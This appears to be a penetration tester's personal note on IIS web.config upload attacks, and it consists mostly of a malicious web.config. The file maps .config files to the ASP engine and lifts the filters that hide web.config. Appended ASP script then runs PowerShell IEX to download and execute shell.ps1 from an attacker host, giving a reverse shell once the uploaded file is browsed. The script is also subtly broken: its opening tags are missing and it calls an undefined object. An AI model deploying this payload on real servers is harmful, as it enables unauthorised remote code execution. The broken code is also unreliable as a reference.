 ```yaml
---
title: web.config
updated: 2023-11-21 10:21:07Z
created: 2023-11-20 11:40:09Z
latitude: -33.85985000
longitude: 151.20901000
altitude: 0.0000
---
```


The web.config file plays an important role in storing IIS7 (and higher) settings. It is very similar to a .htaccess file in Apache web server

web.config with shell code

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />      
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
Set objShell = CreateObject("WScript.Shell")
strCommand = "cmd /c powershell.exe -c IEX (New-Object Net.Webclient).downloadstring('http://<kali>/shell.ps1')"
strOutput = objShellExec.StdOut.ReadAll()
WScript.StdOut.write(strOutput)
WScript.Echo(strOutput)
%>
-->
```

After uploading, browse to web.config and receive reverse shell
